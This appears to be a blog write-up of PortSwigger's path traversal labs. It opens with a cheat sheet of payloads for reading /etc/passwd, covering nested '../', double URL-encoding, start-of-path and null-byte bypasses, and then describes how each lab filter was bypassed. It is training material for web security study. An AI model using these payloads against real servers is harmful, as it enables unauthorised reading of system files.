 ```yaml
---
layout: single
title: Path Traversal - PortSwigger
excerpt: "All Path Traversal labs of PortSwigger."
date: 2025-09-25
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - Path Traversal
  - LFI
---
```



## Path Traversal Cheet Sheat

- Agartha Burp Extension 

![](/img2/Pasted%20image%2020250908204757.png)

- Simple Case

```http
../../../../../../../../../../../etc/passwd
```

- Absolute Path

```http
/etc/passwd
```

- Doble `../`

```http
....//....//....//....//....//....//etc/passwd
```

- Doble URL-Encode `../`

```http
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65/etc/passwd
```

- Validation of start of path

```http
/var/www/images/../../../../../../etc/passwd
```

- Null Byte

```http
../../../../../../../etc/passwd%00.jpg
```

## Bypass absoluto con secuencias bloqueadas || File path traversal, traversal sequences blocked with absolute path bypass

![](/img2/Pasted%20image%2020250908204503.png)

> If we try to do Path Traversal we see that the server does not interpret the file.

![](/img2/Pasted%20image%2020250908204437.png)

> When using the absolute path the server does return the file contents.

## Secuencias traversal eliminadas sin recursión || File path traversal, traversal sequences stripped non-recursively

![](/img2/Pasted%20image%2020250925122145.png)

> We test the basic payload and see that we do not pass validation.

![](/img2/Pasted%20image%2020250925122108.png)

> To bypass the block we can make use of double `../`

## Bypass con doble decodificación en URL || File path traversal, traversal sequences stripped with superfluous URL-decode

![](/img2/Pasted%20image%2020250908202939.png)

> We test the basic LFI payload and see that it is not being interpreted.

![](/img2/Pasted%20image%2020250908203057.png)

> With the Agartha extension we create a wordlist with different payloads.

![](/img2/Pasted%20image%2020250908203146.png)

![](/img2/Pasted%20image%2020250908203224.png)

> With a double URL-encode we bypass the restriction.

## Validación del inicio de la ruta || File path traversal, validation of start of path

![](/img2/Pasted%20image%2020250925123639.png)

> We see the server loading an image with the absolute path.

![](/img2/Pasted%20image%2020250925123739.png)

> If we try to do a Path Traversal after the jpg file, we see the server does not return the contents of `/etc/passwd`.

![](/img2/Pasted%20image%2020250925123440.png)

> If we do the same but from the images directory, we see that it does allow us to read the contents of `/etc/passwd`.

## Bypass con null byte y validación de extensión || File path traversal, validation of file extension with null byte bypass

![](/img2/Pasted%20image%2020250925124201.png)

> We try to inject the basic payload and see that the server does not allow us to read the contents of `/etc/passwd`

![](/img2/Pasted%20image%2020250925124113.png)

> To be able to read the contents we can make use of null bytes. Null bytes allow disabling the final extension, so if there is a validation that forces loading .jpg files, we will be tricking the server.
